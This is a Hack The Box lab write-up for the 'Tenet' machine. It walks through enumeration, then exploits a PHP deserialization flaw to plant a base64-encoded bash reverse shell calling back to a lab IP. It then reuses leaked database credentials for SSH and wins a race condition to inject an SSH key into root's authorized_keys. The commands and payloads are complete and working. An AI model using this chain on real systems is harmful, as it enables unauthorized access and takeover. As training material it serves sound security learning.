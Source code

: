 ```yaml
---
title: "HTB: Tenet Writeup"
date: 2021-06-12T12:00:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb medium
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

Beginning this box as every box, with a `nmap` scan of the box to locate open ports.

```bash
$ sudo nmap -sC -sV -oA nmap/tenet 10.10.10.223
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 20:00 EDT
Nmap scan report for 10.10.10.223
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

# Foothold
The box appears to have only two open ports (`80` and `22`). Visiting port `80`, it appears to be an Apache site, so then running `gobuster` on it locates an interesting directory:

```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://10.10.10.223
...{snip}...
/wordpress (Status: 301}
...{snip}...
```

Visiting the `/wordpress` URL in Firefox gives a badly formatted Wordpress site, which looks like it's trying to add resources from `tenet.htb`. So we may add `10.10.10.223 tenet.htb` to our `/etc/hosts` file.

Browsing the site, I see a user `neil` posted a comment:
> did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!

So that's interesting, it sounds like there's a "sator" php file (maybe `sator.php`?). Visiting `http://tenet.htb/sator.php` gives a 404 error, but remembering from before, we're within the `/wordpress` directory, so what about `http://10.10.10.223/sator.php`? Success!!

This `sator.php` script is printing the following:

> [+] Grabbing users from text file  
> [] Database updated

The comment from neil on the Wordpress form mentioned a backup file, so accessing `http://10.10.10.223/sator.php.bak` and it exists!

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Examining this PHP script, we may see that it is receiving user input via `arepo` variable, passing that to `unserialize`, then calling the `DatabaseExport` class. This looks like a classic example of PHP object deserialization. Basically, from my understanding, what is happening is that PHP will allow you to serialize a class and all of the data within it into a string which may then be deserialized back into a class. Then when the control flow exits, the `__destruct` function is called on it. In this example, the `__destruct` function writes the `data` value to `user_file`. [More on PHP deserialization may be read here](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a).

Since we know the name of the class (`DatabaseExport`) as well as the variable names (`user_file` and `data`), we can construct a payload that is a deserialized PHP object that will allow us to write data out to an arbitrary output file of our choice.

For this payload, we will write out to a PHP file with a very basic reverse shell.

To begin with, the reverse shell that I'd like to attempt is the following:

```bash
/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'
```

Wrapping this in a PHP script to execute it, I get:

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'"); ?>
```

However, I forsee a problem here. Specifically the "&" character, which in a URL is treated as a special delimiter and might throw the payload off. So instead I'm going to base64 encode the reverse shell payload:

```bash
$ echo "/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK
```

Then, use the `base64_decode` function in PHP to decode it before executing it:

```php
<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));
```

So that's the payload I want to eventually write to a file.

Next up, I need to serialize that and put it into a proper payload that will deserialize correctly. For this, I'll construct the following payload:

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}
```

Above we begin with "O" (the letter Oh, not the number zero) to tell PHP that this is an object, followed by the length of the name (14) and the name ("DatabaseExport"). Next the "2" tells PHP that there are two elements in the next section. Within the section we use "s" to denote a string, then "9" for the length of the next string, which is the name of the variable, and the variable itself ("user_file"). Following that we have the same format to provide the variable contents ("rshell.php"). This is then repeated for the "data" variable to contain our payload.

If all goes well, this should generate a file named "rshell.php" which contains the payload to generate a reverse shell.

When using FireFox, the payload may be directly pasted in and FireFox will encode it. However, I like to be a little cautious and pre-encode before uploading.

```bash
$ hURL -U 'O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}'

Original    :: O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}
URL ENcoded :: O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A10%3A%22rshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A106%3A%22%3C%3Fphp%20exec%28base64_decode%28%22L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK%22%29%29%3B%22%3B%7D
```

Now that we have the URL encoded payload, we may submit this via the PHP page.

```bash
$ curl 'http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A10%3A%22rshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A106%3A%22%3C%3Fphp%20exec%28base64_decode%28%22L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK%22%29%29%3B%22%3B%7D' 
```

Setting up a netcat listener and visiting the page, we receive a successful callback.

```bash
$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.10.223] 29836
python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@tenet:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@tenet:/var/www/html$
```

We've successfully logged in as the `www-data` user!

# Privesc

Now we need to enumerate and determine exactly what we can do. For this I ran `linpeas.sh` to locate anything useful, which found the MySQL login information

> Mysql Database: wordpress  
> Mysql User: neil  
> Mysql Pass: Opera2112

Quickly checking those credentials, the user `neil` has the same password for SSH, so we now have SSH access as `neil`.

An additional note is that the script `/usr/local/bin/enableSSH.sh` may be executed by `sudo` by all users. However, without the `www-data` password, that wasn't possible. But now that we have `neil`, that's possible.

Taking a closer look at the `enableSSH.sh` script, it appears to have a hardcoded SSH public key inside of it, it then writes that key to a temporary file, then echos that temporary file into `/root/.ssh/authorized_keys`. If we're able to somehow intercept that temporary file after it is created but before it is sent into the root SSH keys, we can inject our own key into it. This is basically a race condition.

To do this, we could use `python` since that's on the box, but it's also possible to do this with a simple bash script.

```bash
$ while true; do echo "ssh-rsa AAAAB3NzaC1yc2EAAAA...AlU= kali@kali" | tee /tmp/ssh-* >/dev/null; done
```

The above will loop continuously and copy our SSH public key into the `/tmp/ssh-*` file path if/when it exists. This took a couple times before it successfully worked.

```bash
$ sudo /usr/local/bin/enableSSH.sh
```

After executing the above a few times to make sure that the SSH key has made it in, we can then SSH in as root!

